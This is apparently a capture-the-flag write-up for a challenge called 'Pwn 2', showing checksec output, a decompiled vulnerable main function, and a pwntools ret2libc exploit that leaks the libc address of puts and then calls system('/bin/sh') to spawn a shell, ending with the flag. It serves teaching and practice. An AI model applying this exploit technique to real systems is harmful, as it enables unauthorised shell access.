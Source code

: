 # **Pwn 2**
Textbook buffer overflow *without* win function

# Executable
checksec :
```
[*] '/home/skuuk/n00bz/pwn2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(input,0x19,stdin);
  puts("Wrong Answer! I\'ll give you another chance!\n");
  puts("Would you like a flag?");
  fgets(local_28,0x60,stdin);
  system("cat fake_flag.txt");
  return;
}
```
no canary, the only local on the stack is the buffer `local_28` itself so the returned address is at offset `32 + 8 = 40` 
(counting 8 bytes for the saved `rbp`)
# Exploit

The exploit is in 2 phases :
- first we leak the address of libc by returning to puts (via the plt) with the got entry of puts as argument (which contains the adress of puts in libc since puts has been called previously) then return to `main`
- second we return to system with the address of `/bin/sh\x00` as argument to spawn a shell

*Returning to main allows us use the buffer overflow a second time*
```python
io = start()

# gadgets in the executable
ret = 0x40101a
pop_rdi = 0x401196

# leak libc base + return to main
io.sendline("a")
io.sendline(b"a"*40+ p64(pop_rdi) + p64(exe.got['puts'])  +p64(exe.plt['puts']) + p64(exe.symbols['main']))
io.recvuntil("}")

libc = exe.libc
libc.address = int.from_bytes(io.recvline()[:-1],'little') - libc.symbols['puts']
print(f'{libc.address:x}')

# return to system
io.sendline("a")
io.sendline(b"a"*40 + p64(ret) + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\x00')))  + p64(libc.symbols['system']))

io.sendline("cat flag.txt")
io.interactive()
```

# Flag
```
n00bz{3xpl01t_w1th0u7_w1n_5uc355ful!}
```